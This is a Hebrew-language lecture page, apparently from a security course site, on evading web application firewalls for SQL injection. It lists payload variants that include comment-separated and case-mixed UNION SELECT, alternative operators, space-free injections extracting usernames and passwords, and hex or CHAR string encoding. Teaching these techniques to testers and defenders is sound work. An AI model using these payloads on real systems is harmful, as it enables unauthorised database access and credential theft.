

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/8 - עקיפת WAF/8.6 - עקיפת WAF לכל חולשה/8.6 - עקיפת WAF לכל חולשה - הרצאה/index.html · generator: mkdocs

# הbypass WAF לכל חולשה - Vulnerability-specific WAF Bypass

## מבוא

בשיעורים הקודמים למדנו טכניקות bypass כלליות: הencoding, HPP, Unicode, ופרוטוקול. בשיעור זה נתמקד בbypasses ספציפיות לכל סוג חולשה. לכל חולשה יש תחביר חלופי, טריקים ייחודיים ושיטות שמנצלות את הגמישות של השפה או הפרוטוקול הרלוונטי.

## הbypass WAF ל-SQLi

### הערות כתחליף רווח

```sql
-- WAF blocks: UNION SELECT
-- Bypass using comments
UNION/**/SELECT
UNION/*anything*/SELECT
UNION/*aaaaaaaaaa*/SELECT

-- MySQL - conditional comments
/*!UNION*//*!SELECT*/
/*!50000UNION*//*!50000SELECT*/
```

![תרשים החלטה המראה כיצד תחביר SQL חלופי חומק מה-regex של ה-WAF בעוד מנוע ה-SQL מנרמל את התחביר ומריץ את ההזרקה](../../../images/illustrations/webadv-8-6-syntax-variant-bypass.svg)

### ערבוב גודל אותיות - Case Mixing

```sql
-- WAF blocks: UNION SELECT (case insensitive? not always)
uNiOn SeLeCt
UnIoN sElEcT
UNION SElect

-- Combined with comments
uNiOn/**/SeLeCt
```

### מילות מפתח חלופיות

```sql
-- Instead of UNION SELECT
UNION ALL SELECT
UNION DISTINCT SELECT
UNION ALL DISTINCT SELECT

-- Instead of OR
|| (instead of OR)
&& (instead of AND)

-- Instead of = (equality)
LIKE
REGEXP
RLIKE
BETWEEN x AND x
IN (x)
NOT <> (double negation)
```

### טכניקות ללא רווחים - No-space Techniques

```sql
-- Parentheses as a space substitute
SELECT(username)FROM(users)
UNION(SELECT(1),(2),(3))

-- Combination
(1)UNION(SELECT(username),(password)FROM(users))

-- MySQL - curly braces
{fn CONCAT(0x61,0x62)}
```

### בניית מחרוזות עם פונקציות

```sql
-- CONCAT
SELECT CONCAT(0x61,0x64,0x6d,0x69,0x6e)
-- = "admin"

-- CHAR
SELECT CHAR(97,100,109,105,110)
-- = "admin"

-- Hex strings
SELECT 0x61646d696e
-- = "admin"

-- CHR (Oracle/PostgreSQL)
SELECT CHR(97)||CHR(100)||CHR(109)||CHR(105)||CHR(110)
-- = "admin"

-- Combination: WAF blocks 'admin', we'll use hex
SELECT username, password FROM users WHERE username = 0x61646d696e
```
